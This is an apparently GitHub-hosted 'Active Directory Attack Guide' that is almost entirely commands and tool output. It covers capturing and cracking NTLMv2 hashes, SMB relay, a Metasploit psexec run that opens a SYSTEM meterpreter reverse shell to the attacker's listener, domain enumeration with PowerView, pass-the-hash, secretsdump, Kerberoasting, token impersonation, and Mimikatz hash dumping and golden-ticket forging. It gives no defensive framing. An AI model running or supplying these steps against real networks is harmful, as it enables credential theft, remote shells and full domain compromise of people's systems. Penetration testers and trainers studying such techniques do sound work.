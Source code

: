 ## Active Directory Attack Guide.

#### Capture `NTLMv2` Hashes with `Responder`
```
> sudo responder -I eth0 - rdwv
```
#### Crack the Hash with `Hashcat`
```
> hashcat -m 5600 hash rockyou.txt
--help:
MODE | 5600 | NetNTLMv2 | Network Protocol
```

#### Edit the Responder Config File for `SMB Relay Attack`
```
> nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

#### Running `Responder`
```
> sudo responder -I eth0 - rdwv
```
#### Starting `NTLMrelayx` part of Impacket Tools
```
> ntlmrelayx.py -tf targets.txt -smb2support -i 
--help:
-i -- intercative
-e -- execute payload (test.exe) (Creating a payload with msfvenom)
-c -- run a command (whoami)

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from DOMAIN/user@192.168.164.141 controlled, attacking target smb://192.168.164.142
[*] Authenticating against smb://192.168.164.142 as DOMAIN/USER SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-4: Connection from DOMAIN/USER@192.168.164.141 controlled, but there are no more targets left!
[-] SMB SessionError: STATUS_NO_SUCH_FILE({File Not Found} The file %hs does not exist.)

```

#### `Netcat` Listener on localhost
```
> nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```
#### Exploiting the Target with `Metasploit`

```
> msfconsole

use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                192.168.164.141  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wi
                                                    ki/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             DOMAIN.local     no        The Windows domain to use for authentication
   SMBPass               pass_123         no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a norma
                                                    l read/write folder share
   SMBUser               user             no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.164.137  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 192.168.164.137:4444
[*] 192.168.164.141:445 - Connecting to the server...
[*] 192.168.164.141:445 - Authenticating to 192.168.164.141:445|marvel.local as user 'user'...
[*] 192.168.164.141:445 - Selecting PowerShell target
[*] 192.168.164.141:445 - Executing the payload...
[+] 192.168.164.141:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 192.168.164.141
[*] Meterpreter session 1 opened (192.168.164.137:4444 -> 192.168.164.141:58863 ) at 2022-01-12 22:38:10 +0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
#### Enumeration with `PowerView.ps1`
```
> powershell -ep bypass

> . .\PowerView.ps1

> Get-NetDomain

> Get-NetDomainController

> Get-DomainPolicy
	> (Get-DomainPolicy)."system access"
		
> Get-NetUser (select = grep in Linux)
	> Get-NetUser | select description
	> Get-NetUser | select samaccountname
	> Get-NetUser | select cn
		
> Get-UserProperty
	> Get-UserProperty -Properties pwdlastset
		
> Get-NetComputer (select = grep in Linux)
	> Get-NetComputer | select cn
	> Get-NetComputer | select operatingSystem
		
> Get-NetGroup
	> Get-NetGroup -Identity *admin*
		
> Get-NetGroupMember -Identity "Domain Admins"

> Invoke-ShareFinder

> Get-NetGPO | select displayname, whenchange      
```

### Note: ```NTLM``` hash can be passed but not ```NTLMv2```

#### Pass the Hash with `Crackmapexec`

```
> crackmapexec smb 192.168.164.0/24 -u user -d DOMAIN.local -p password

. DumpHashes
> crackmapexec smb 192.168.164.0/24 -u user -d DOMAIN.local -p password --sam

> crackmapexec smb 192.168.164.0/24 -u "Full Name" -H HASH --local-auth

```

#### Dumping Hash with `Secretsdump.py`
```
> secretsdump.py domain/user:password@192.168.164.141
```
#### Getting a Shell with `PsExec.py` (LMHASH:NTHASH)
```
> psexec.py "username":@192.168.164.141 -hashes LMHASH:NTHASH
> psexec.py DOMAIN.local/Administrator:'password'@192.168.164.141 (character-escaping with '')
```
#### Token Impersonation with `Incognito` (Metasploit)
Note: Impersonation works with Logged in Users, Token is valid till the PC is Rebooted.

 * Delegate Token - Login or RDP Sessions
```
meterpreter > load incognito

meterpreter > list_tokens -u

meterpreter > impersonate_token domain\\user

meterpreter > shell

C:\Windows\system32>whoami

meterpreter > rev2self (revert back to user we gained shell as)
```	
#### Dumping Hashes with `GetUserSPNs.py` (`Kerberoasting`)
```
> GetUserSPNs.py DOMAIN.local/user:password -dc-ip (DC-ip-addr) -request
```

#### Cracking `Kerberos` hash with `Hashcat`
```
> hashcat -m 13100 kerberos-hash.txt rockyou.txt
MODE | 13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol
```
#### Post-Exploitation with Mimikatz
```
> . .\mimikatz.exe

  privilege::debug [privilege "20" ok]
  
. Dump the hash and security identifier of the Kerberos Ticket Granting Ticket account
> lsadump::lsa /inject /name:krbtgt 

. Create a Golden Ticket
> kerberos::golden /user: /domain: /sid: /krbtgt: /id:

. Dump NTLM hashes
> lsadump::lsa /patch

. Cracking NTLM hash with John the Ripper
> john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
